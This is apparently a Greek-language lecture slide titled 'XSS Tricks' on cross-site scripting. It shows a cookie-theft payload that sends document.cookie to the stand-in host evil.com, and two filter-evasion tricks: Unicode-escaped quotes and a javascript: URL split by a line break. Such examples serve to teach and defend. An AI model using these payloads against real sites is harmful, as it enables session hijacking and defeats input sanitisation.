

# XSS Tricks
Πώς η εισβολέας υποκλέπτει πληροφορίες;
document.images[0].src=“http://www.evil.com/” + document.cookie;

Πώς παρακάμπτουμε τα filtered quotes;
Unicode equivalents \u0022 and \u0027

Πώς παρακάμπτουμε το line based filtering;
<IMG SRC="javasc
ript:alert('Gotcha!');">
<-- line break trick \10 \13 as delimiters. -->